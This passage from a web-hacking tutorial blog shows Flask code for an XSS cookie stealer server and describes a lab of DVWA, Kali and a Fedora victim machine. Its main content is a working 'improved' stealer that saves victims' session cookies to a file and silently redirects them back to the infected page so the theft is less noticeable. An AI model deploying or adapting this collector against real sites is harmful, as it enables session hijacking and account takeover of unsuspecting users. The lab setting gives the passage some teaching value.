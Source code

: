     return render_template('index.html', cookies=cookies)

# run cookie stealer server
app.run(host='0.0.0.0', port=80)

{% endhighlight %}

The complete cookie stealing server is shown above.

# How to use a cookie stealer

<iframe width="560" height="315" src="https://www.youtube.com/embed/E512FG_Hv98" frameborder="0" allowfullscreen></iframe>

Now that we've built our cookie stealer, let's try using it in an actual XSS attack. This video uses three virtual machines running on a VMWare virtual network as a lab environment.

* 	OWASP Broken Web Applications Project (Target HTTP Server)

* 	Kali Linux

*	Fedora 22

The OSASP BWA virtual machine is running Damn Vulnerable Web App, which we will be attacking. For more information on running virtual machines, check out [this previous blog post](http://solstice.me/web%20hacking/sqli/2016/03/15/hacking-blindfolded/). Kali can be downloaded [here](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/). I'll be using my laptop running Fedora 22 as a victim in the attack.


# Improving our Cookie Stealer with Redirection


As you can see from the video, our cookie stealer has a pretty glaring limitation -- it's loud. The target web page is rendered unusable after the XSS attack, and all users are instantly redirected to an obviously malicious attack site. 

The way to fix this issue to redirect the user back to the infected web page instead of presenting them with a new html template. The code shown below does just that.

{% highlight python %}

from flask import Flask, request
from flask.ext.cors import CORS
from flask import redirect

app = Flask(__name__)
app.debug = True

CORS(app)

@app.route('/')
def index():

    cookies = request.args.get('cookies')
    with open('cookies.txt', 'a') as fd:
        fd.write(cookies)
    return redirect( request.referrer )

app.run(host='0.0.0.0', port=80)

{% endhighlight %}
